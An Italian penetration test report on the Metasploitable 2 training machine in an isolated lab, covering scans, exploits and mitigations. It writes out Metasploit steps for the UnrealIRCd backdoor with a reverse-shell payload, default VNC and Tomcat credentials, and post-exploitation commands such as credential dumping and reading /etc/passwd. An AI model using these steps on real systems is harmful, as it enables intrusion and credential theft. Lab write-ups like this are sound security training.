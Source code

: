# Penetration Test Report – Metasploitable 2

🗓️ Data: 25/06/2025  
🎯 Target IP: 192.168.75.132  
👤 Tester: ILoveOllyexe

---

## 📘 Descrizione del Progetto

Questo progetto documenta un'attività di penetration testing condotta su Metasploitable 2, una macchina vulnerabile progettata per scopi didattici e laboratori di sicurezza. Il test è stato eseguito in un ambiente virtualizzato e controllato, con lo scopo di identificare, sfruttare e documentare vulnerabilità note attraverso tecniche reali.

---

## 🛠️ Strumenti Utilizzati

| Tool        | Descrizione                                                                 |
|-------------|------------------------------------------------------------------------------|
| Nessus      | Scanner di vulnerabilità commerciale, utilizzato per effettuare la scansione automatica dei servizi esposti e delle vulnerabilità note (CVEs). Sono stati generati report in formato HTML e CSV. |
| Armitage    | GUI per Metasploit Framework, utilizzata per eseguire scansioni, sfruttare vulnerabilità e gestire sessioni post-exploitation in modalità visuale. Ideale per attività di red teaming collaborativo. |
| msfconsole  | Interfaccia CLI del Metasploit Framework. Permette di lanciare exploit manualmente, configurare payload (es. reverse_tcp, meterpreter), stabilire sessioni e post-exploitation. |
| vncviewer   | Client VNC per connettersi alla macchina target tramite GUI remota. Utilizzato per verificare la debolezza dell'autenticazione. |
| nmap        | Utilizzato per la ricognizione e la scansione delle porte e dei servizi attivi. Supporto a script NSE per analisi avanzata. |
| Wireshark   | Sniffer di rete usato per intercettare traffico non cifrato (es. credenziali in chiaro) e comprendere le comunicazioni tra servizi vulnerabili. |
| whois/dig   | Per informazioni OSINT di rete, anche se non essenziali in ambiente locale, inclusi per completezza tecnica. |

---

## 🧭 Metodologia Dettagliata

### 1. Ricognizione Attiva e Passiva
- nmap -sS -sV -T4 -p- 192.168.75.132
- nmap -A -O -sC 192.168.75.132
- Servizi rilevati: SSH, FTP, HTTP, Samba, MySQL, Tomcat, IRC, VNC, RSH
- Banner grabbing e verifica versioni vulnerabili

### 2. Scansione delle Vulnerabilità
- Nessus: vulnerabilità critiche su software obsoleto (Ubuntu 8.04), servizi mal configurati (VNC, RSH), e backdoor note
- Salvataggio report: nessus_output.csv, nessus_report.html

### 3. Sfruttamento delle Vulnerabilità (Exploit)
- msfconsole > use exploit/unix/irc/unreal_ircd_3281_backdoor
- set RHOST 192.168.75.132; set PAYLOAD cmd/unix/reverse; run
- Armitage: attacchi mirati, shell interattive, uso di autorun e funzioni di escalation
- VNC exploit: connessione diretta con vncviewer senza richiesta password
- Exploit SQL Injection su phpMyAdmin (simulato, non distruttivo)

### 4. Post-Exploitation
- Meterpreter: dump credentials, screenshot, keyloggers, persistence
- shell: whoami, netstat -anp, ps aux, cat /etc/passwd
- Enumerazione file sensibili, utenti, servizi schedulati, crontab

### 5. 🧾 Raccolta Evidenze & Report
- Ogni fase è stata salvata come output testuale o screenshot
- Cartelle organizzate per tool, host, vulnerabilità
- Report redatto in Markdown e convertibile in PDF con pandoc

---

## 🔎 Vulnerabilità Identificate

### 1. UnrealIRCd 3.2.8.1 Backdoor (CVE-2010-2075)
- Criticità: Critical
- Tool: Metasploit
- Exploit: exploit/unix/irc/unreal_ircd_3281_backdoor
- Evidenza: reverse shell ottenuta sulla porta 6667
- Impatto: Esecuzione remota di comandi
- Mitigazione: Disinstallare UnrealIRCd compromesso; verificare hash binari

### 2. Ubuntu 8.04 End of Life
- Criticità: Critical
- Tool: Nessus
- Evidenza: OS detection e warning Nessus
- Rischi: Assenza patch, exposure totale
- Mitigazione: Aggiornamento a distribuzioni supportate (es. Ubuntu 22.04 LTS)

### 3. VNC Server senza protezione (password: "password")
- Criticità: Critical
- Tool: vncviewer
- Impatto: Controllo completo GUI
- Test: vncviewer 192.168.75.132 → accesso immediato
- Mitigazione: Disabilitare VNC o applicare autenticazione + cifratura

### 4. Bind Shell Backdoor (generica)
- Criticità: Critical
- Tool: Nessus, netstat, nmap
- Evidenza: Porta in listening anomala
- Rischio: Shell remota sempre in ascolto

### 5. Apache Tomcat (≤ 5.5.x) + Credenziali Predefinite
- Criticità: Critical
- URL: http://192.168.75.132/admin
- User: tomcat / tomcat
- Impatto: Accesso completo console amministrativa
- Exploitabili con Metasploit: tomcat_mgr_login, tomcat_mgr_upload

### 6. phpMyAdmin SQLi (PMASA-2019-3)
- Criticità: Alta
- Evidenza: Nessus, versione 4.8.4
- Rischio: Bypass autenticazione, SQLi
- Test simulato: manual query injection (no danni)

### 7. rsh Attivo
- Criticità: Alta
- Porta TCP 514
- Nessuna cifratura, autenticazione debole
- Legacy protocol → should be disabled

### 8. Samba Badlock Vulnerability (CVE-2016-2118)
- Criticità: Alta
- Race condition SMB
- Mitigazione: Patch Samba, aggiornamento a versioni ≥ 4.4.2

---

## ✅ Conclusioni e Raccomandazioni

- Il sistema presenta falle critiche in diversi livelli (servizi, SO, credenziali, configurazioni)
- Mitigazioni Prioritarie:
  - Aggiornare o sostituire sistema operativo
  - Rimuovere software obsoleti e non sicuri (IRC, RSH)
  - Cambiare tutte le password di default
  - Limitare accesso tramite firewall e subnetting
  - Abilitare logging e monitoraggio

---

## 📌 Note Finali

- Ambiente: Kali Linux 2024.1 su VirtualBox + Metasploitable 2
- Test svolti in rete host-only, isolata
- Documentazione formattata con markdown

© 2025 – [ILoveOllyexe] – Licenza MIT o CC BY-NC-SA

🔗 LinkedIn: simona-oliva00 |
